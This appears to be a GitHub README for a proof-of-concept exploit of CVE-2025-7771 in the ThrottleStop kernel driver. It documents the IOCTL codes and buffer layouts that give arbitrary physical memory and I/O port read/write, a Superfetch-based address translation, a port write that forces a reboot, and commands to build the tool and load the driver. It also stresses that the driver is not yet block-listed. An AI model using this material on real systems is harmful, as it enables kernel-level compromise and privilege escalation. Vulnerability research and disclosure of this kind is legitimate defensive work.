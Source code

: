 # ThrottleStopPoC
**CVE-2025-7771**: Arbitrary physical memory and I/O port read/write via ThrottleStop driver

ThrottleStop is a small legitimate application used to monitor and correct CPU throttling. It has a driver that faciliates these tasks and it mostly doesn't have any sort of input validation.

## Vulnerable IOCTLs
| IOCTL         | Vulnerability             |
| --------------| --------------------------|
| 0x80006498    | Arbitrary memory read     |
| 0x8000649C    | Arbitrary memory write    |
| 0x80006430    | Arbitrary port read       |
| 0x80006434    | Arbitrary port write      |

---
> All of the IOCTL calls mentioned below are implemented in [Exploit.c](src/Exploit.c) file. 
---

### Arbitrary memory read
`0x80006498` IOCTL maps any provided physical address into kernel space using `MmMapIoSpace` and reads 1, 2, 4, or 8 bytes from it. The data is then copied back into user space. 

To trigger this IOCTL, `DeviceIoControl` with physical address as input and output buffer size as read size (1, 2, 4, or 8).

Simplified code for this IOCTL in driver:
```cpp
case 0x80006498: {
    size_t readSize = inputBuffer->Size;   // must be 1,2,4,8
    PHYSICAL_ADDRESS physAddr = inputBuffer->PhysAddr;
    void* mappedAddr = MmMapIoSpace(physAddr, readSize, MmNonCached);

    if (mappedAddr) {
        if (readSize == 1)
            *outputBuffer = *(uint8_t*)mappedAddr;
        else if (readSize == 2)
            *(uint16_t*)outputBuffer = *(uint16_t*)mappedAddr;
        else if (readSize == 4)
            *(uint32_t*)outputBuffer = *(uint32_t*)mappedAddr;
        else if (readSize == 8)
            *(uint64_t*)outputBuffer = *(uint64_t*)mappedAddr;

        MmUnmapIoSpace(mappedAddr, readSize);
    }
}
```

### Arbitrary memory write
Similar to read, `0x8000649C` IOCTL maps provided physical address into kernel space using `MmMapIoSpace` and reads 1, 2, 4, or 8 bytes from it.

To trigger this IOCTL, `DeviceIoControl` with the following input buffer layout:
```cpp
struct {
    ULONGLONG PhysicalAddress;  // 8 bytes
    union {
        BYTE  Value8;
        WORD  Value16;
        DWORD Value32;
        QWORD Value64;
    };
};
```
Input buffer size will be 8 + (1, 2, 4, or 8) depending on write size.

Output buffer and output buffer size are unused.

Simplified code for this IOCTL in driver:
```cpp
case 0x8000649C: {
    size_t writeSize = inputBuffer->Size;  // must be 1,2,4,8
    PHYSICAL_ADDRESS physAddr = inputBuffer->PhysAddr;
    void* mappedAddr = MmMapIoSpace(physAddr, writeSize, MmNonCached);

    if (mappedAddr) {
        if (writeSize == 1)
            *(uint8_t*)mappedAddr = inputBuffer->Value8;
        else if (writeSize == 2)
            *(uint16_t*)mappedAddr = inputBuffer->Value16;
        else if (writeSize == 4)
            *(uint32_t*)mappedAddr = inputBuffer->Value32;
        else if (writeSize == 8)
            *(uint64_t*)mappedAddr = inputBuffer->Value64;

        MmUnmapIoSpace(mappedAddr, writeSize);
    }
}
```

### Arbitrary port read
`0x80006430` IOCTL allows a user to specify an IO port and read from it directly using `__inbyte`, `__inword`, or `__indword`.

Input buffer is a `USHORT` and Input buffer size should be `sizeof(USHORT)`.

Output buffer will hold the result (1, 2, or 4 bytes depending on requested size) and output size can be 1, 2, or 4.

Simplified code for this IOCTL in driver:
```cpp
case 0x80006430: {
    uint16_t port = inputBuffer->PortNumber;
    uint8_t size  = inputBuffer->AccessSize; // 1, 2, or 4

    if (size == 1)
        *outputBuffer = __inbyte(port);
    else if (size == 2)
        *(uint16_t*)outputBuffer = __inword(port);
    else if (size == 4)
        *(uint32_t*)outputBuffer = __indword(port);
}
```

### Arbitrary port write
Similar to port read, `0x80006434` IOCTL allows a user to specify an IO port and write arbitrary values to it with `__outbyte`, `__outword`, or `__outdword`.
The input buffer layout is:
```cpp
struct {
    USHORT PortNumber;
    BYTE   Padding[2];   // alignment
    union {
        BYTE  Value8;
        WORD  Value16;
        DWORD Value32;
    };
};
```
Input buffer size should be sizeof(USHORT) + sizeof(Value) (+ padding).
Output buffer and its size are unused.

Simplified code for this IOCTL in driver:
```cpp
case 0x80006434: {
    uint16_t port = inputBuffer->PortNumber;
    uint8_t size  = inputBuffer->AccessSize; // 1, 2, or 4

    if (size == 1)
        __outbyte(port, inputBuffer->Value8);
    else if (size == 2)
        __outword(port, inputBuffer->Value16);
    else if (size == 4)
        __outdword(port, inputBuffer->Value32);
}
```
---

### Translation of virtual addresses to physical addresses
This translation is possible by abusing Superfetch, a legitimate kernel module that exposes virtual to physical address translation using undocumented APIs.
The code for this is implemented in [vtop.c](src/vtop.c)

## Build 
This project can be compiled using Meson. It reads the `UniqueProcessId` field by resolving the EPROCESS structure of the System process using `PsInitialSystemProcess` and checks if it's `4` (imeplemented in [Main.c](src/Main.c) and the functions for finding EPROCESS of a specific PID are implemented in [EProcess.c](src/EProcess.c)). Additionally, it asks the user if they want to force-restart their system. This is possible by writing `0x0E` value to port `0xCF9`.

> **Warning**: Everything was tested on **Windows 11 build 24H2**. The offsets in the EPROCESS structure might be different on your system.

Build the project by
```
meson setup build
```
It will create the build directory. Now compile the project with
```
meson compile -C build
```

The driver is available at `Drivers` directory of the repository. ThrottleStop drivers can be directly extracted from `ThrottleStop.exe` program via Resource Hacker. You'll find 2 drivers - x64 and x86. `DriverObject->MajorFunction[14]` holds the dispatch function where all the IOCTLs have been implemented.

Create and start driver using:
```
sc create ThrottleStop binPath="<Path>" type=kernel
sc start ThrottleStop
```

## References
https://github.com/jonomango/superfetch

This driver hasn't yet been added to Microsoft driver block list nor [loldrivers](https://loldrivers.io).